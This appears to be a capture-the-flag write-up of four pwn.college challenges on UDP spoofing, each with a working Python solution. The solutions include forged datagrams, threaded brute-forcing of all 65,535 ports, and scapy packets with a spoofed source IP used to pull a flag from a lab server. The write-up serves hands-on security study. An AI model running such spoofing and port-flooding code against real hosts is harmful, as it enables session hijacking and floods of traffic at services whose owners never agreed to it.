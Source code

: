 ```yaml
---
tags: ["Computer Networking", "UDP", "Sproofing"]
title: "UDP Sproofing"
description: UDP Sproofing
reference: https://pwn.college/intro-to-cybersecurity/intercepting-communication/
---
```


# Sproofing 1

## Description

There are two dangers to UDP: first, it is often used in places where people are already cutting corners for performence's sake. Second, it forces the programmer to keep track of sessions explicitly. This combination can cause security issues.

In this challenge, one side of the connection can confuse a non-trusted connection for a trusted connection, and print the flag. Can you trigger this confusion?

NOTE: In this level, the flag will just be printed to the console when you trigger the confusion. We'll work on realistically exfiltrating it later.

## Solution

```python
import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)  # Create UDP socket
sock.bind(("10.0.0.1", 31337))
sock.sendto(b"FLAG", ("10.0.0.2", 31338))
```

---

# Sproofing 2

## Description

There is a fairly wide gap between the features that TCP provides and UDP's barebones nature. Sometimes, developers want some of those features, and end up reimplementing just those that they need on top of UDP. This leads to weird situations, such as the ability to trigger outbound traffic to other servers, with a potential application to Denial of Service amplification.

Rather than leaking the flag directly, this challenge allows you to redirect it to another server. Can you catch it on the other side?

HINT: You'll need to either use a UDP server to actually receive the flag (e.g., python or netcat), or just sniff it off the network with Wireshark when it comes to you, even if you don't have a server listening!

## Solution

```python
import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)  # Create UDP socket
sock.bind(("10.0.0.1", 31337))
sock.sendto(b"FLAG:10.0.0.1:31337", ("10.0.0.2", 31338))

data, addr = sock.recvfrom(1024)

print(data.decode())
```

---

# Sproofing 3

## Description

Of course, the previous spoofing worked because you know the source port that the client was using, and were thus able to forge the server's response. This was, in fact, at the core of a very famous vulnerability in the Domain Name System that facilitates the translation of host names like https://pwn.college to the appropriate IP addresses. The vulnerability allowed attackers to forge responses from DNS servers and redirect victims to IP addresses of their choice!

The fix for that vulnerability was to randomize the source port that DNS requests go out from. Likewise, this challenge no longer binds the source port to 31338. Can you still force the response?

HINT: The source port is only set once per socket, whether at bind time or at the first sendto. What do you do when there's a fixed number that you don't know?

## Solution

Try all possible ports!

```python
import socket
import time
import threading

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)  # Create UDP socket
sock.settimeout(1)
sock.bind(("10.0.0.1",31337))

def send(port):
    sock.sendto(b"FLAG:10.0.0.1:31337", ("10.0.0.2", port))
    try:
        data, addr = sock.recvfrom(1024)
        print(data.decode())
    except:
        pass

for i in range(1, 65535):
    threading.Thread(target=send, args=[i], daemon=True).start()
    if i % 500 == 0:
        time.sleep(1)
```

---

# Sproofing 4

## Description

Let's up the game a bit: this challenge checks that the response came from the right server! Luckily, UDP is a lot easier to forge than TCP. In TCP, forging a server response requires you to know sequence numbers and a whole bunch of other inconvenient-to-guess information. Not so with UDP!

Go ahead and craft the server response with scapy, as you've done with TCP, and let's see that flag fly!

## Solution

```python
     1	from scapy.all import IP, UDP, Raw, send, sniff
     2	import threading
     3	import time
     4	
     5	def handle_packet(packet):
     6	    if IP in packet and UDP in packet:
     7	        if packet[IP].src == "10.0.0.2":
     8	            print(f"Received from 10.0.0.2: {packet[UDP].payload.load}")
     9	
    10	def send_packet(dport):
    11	    packet = IP(src="10.0.0.3", dst="10.0.0.2") / UDP(sport=31337, dport=dport) / Raw(b"FLAG:10.0.0.1:31337")
    12	    send(packet, verbose=False)
    13	
    14	threading.Thread(target=sniff, kwargs={"filter":"udp and src host 10.0.0.2", "prn":handle_packet, "store":False}, daemon=True).start()
    15	
    16	# Flood all ports from 1 to 65535
    17	for i in range(1, 65536):
    18	    threading.Thread(target=send_packet, args=(i,), daemon=True).start()
    19	    if i % 550 == 0:
    20	        time.sleep(1)
```
